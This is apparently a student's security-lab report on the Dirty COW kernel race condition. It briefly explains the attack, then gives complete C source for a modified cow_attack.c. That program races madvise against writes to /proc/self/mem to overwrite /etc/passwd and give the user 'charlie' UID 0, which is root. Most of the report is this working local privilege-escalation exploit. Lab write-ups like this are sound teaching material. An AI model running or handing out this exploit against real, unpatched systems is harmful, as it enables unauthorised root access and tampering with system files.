


# Lab 10

SID 12110644

Name Sicheng Zhou

## Task 1 Modify a dummy read-only file



Explain:

1. Map the target file using mmap() with the MAP_PRIVATE flag to create a private, copy-on-write mapping of the file. 
2. The `madviseThread` tells the kernel that the memory is no longer needed and should be discarded. This action causes the kernel to invalidate the memory-mapped page, marking it as needing to be reloaded from the original file.
3. The `writeThread` writes to the position of the target substring using /proc/self/mem. The loop repeatedly seeks to the target position and writes data, racing with the kernel’s handling of the memory mapping.


## Task 2 Modify the passwd file to gain the root privilege

Here is the modified `cow_attack.c` code to change the passwd file.
Only need to modify: 

1. The name of the target file = `/etc/passwd`.
2. The target position = `charlie:x:1001`.
3. The target content = `charlie:x:0000`.

```c
// modified cow_attack.c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "charlie:x:1001");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "charlie:x:0000";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}

```


